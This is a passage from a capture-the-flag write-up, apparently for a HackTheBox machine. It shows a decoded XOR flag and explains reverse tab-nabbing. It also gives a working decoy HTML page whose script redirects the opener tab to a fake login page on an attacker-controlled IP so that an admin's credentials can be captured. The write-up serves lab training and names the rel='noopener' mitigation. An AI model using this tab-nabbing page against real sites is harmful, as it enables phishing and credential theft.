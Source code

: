 ```
>>> print(flag.decode())
DHTB{XorXorXorFunFunFun}

```
**Flag: DHTB{XorXorXorFunFunFun}**

## Shell as www-data

### Reverse Tab-Nabbing Exploit

#### Theory

0xprashant found this neat [reverse tab-nabbing bug](https://0xprashant.in/posts/htb-bug/) in the HTB platform August 2020. When a web developer wants a link to open in a new tab, they add `target="_blank"` to the `<a>` tag. The issue is, if that link leads to a malicious page and mitigations aren’t in place, then JavaScript on that page can actually change the location of the original page. So this is really only an issue if you are linking to user-controlled content that the site doesn’t. The mitigation for this is to also add `rel="noopener nofollow"` to the `<a>` tag as well.

For example, the HackTheBox pages for retired machines show links to user writeups. Looking at the source on HTB for the link to my RopeTwo writeup, the mitigation is in place:

![image-20220113073246052](https://0xdfimages.gitlab.io/img/image-20220113073246052.png)

Looking at the profile links on Developer, the `rel` is missing, suggesting this link is vulnerable to tab-nabbing:

![image-20220113073356495](https://0xdfimages.gitlab.io/img/image-20220113073356495.png)

#### Strategy

The goal here will be to host a page so that when the admin clicks on the link, it open in a new tab that’s now visible. The JavaScript in that tab will reverse tab-nab the original tab to send it to another page I’m hosting that looks like the login page for Developer. When the admin is done reading my page and comes back, they’ll think they’ve been logged out for some reason, and log in again, where I capture the creds.

#### Generate Tab-Nabber

I’ll grab the tab nabber page from the 0xprashant post and edit it to point to the login path on my host:

```

<html>
  <body>
    <h2>Challenge Writeup</h2>
    <p>This challenge was quite well designed! Good job by the developers at Developer for this one. I would definitely recommend it to my friends. It required critical thinking and tools like Ghidra to get the job done</p>
    <script>
    if (window.opener) window.opener.parent.location.replace('http://10.10.14.6/accounts/login/');
    if (window.parent != window) window.parent.location.replace('https://10.10.14.6/accounts/login/');           
    </script>
  </body>
</html>

```
